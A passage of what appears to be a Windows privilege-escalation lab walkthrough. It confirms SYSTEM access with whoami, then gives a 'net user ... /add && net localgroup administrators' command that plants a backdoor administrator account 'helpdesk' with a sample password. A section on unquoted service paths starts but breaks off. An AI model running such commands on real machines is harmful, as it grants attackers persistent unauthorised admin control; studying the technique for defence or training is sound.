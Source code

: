    - Press **Enter**.
   - An administrator command prompt opens.

4. **Verify Privileges:**

   ```bash
   whoami
   nt authority\system
   ```

5. **Create Admin User:**

   To create a new administrator account, use the following command:

   ```bash
   net user <username> <password> /add && net localgroup administrators <username> /add
   ```

   **Example:**

   ```bash
   net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
   ```

   - **username**: The desired name for the new account (e.g., `helpdesk`).
   - **password**: The password for the new account (e.g., `L3tm3!n`).

   **Result:**

   This command creates a new user with the specified credentials and adds it to the **Administrators** group, granting elevated privileges.

---

### Unquoted Service Path

![Unquoted Path Service Properties](.assets/unquoted_path_service.png)

This service has an unquoted executable path with spaces, making it vulnerable to privilege escalation. The path is:

**Enumerating Unquoted Service Paths Using Manual Techniques:**
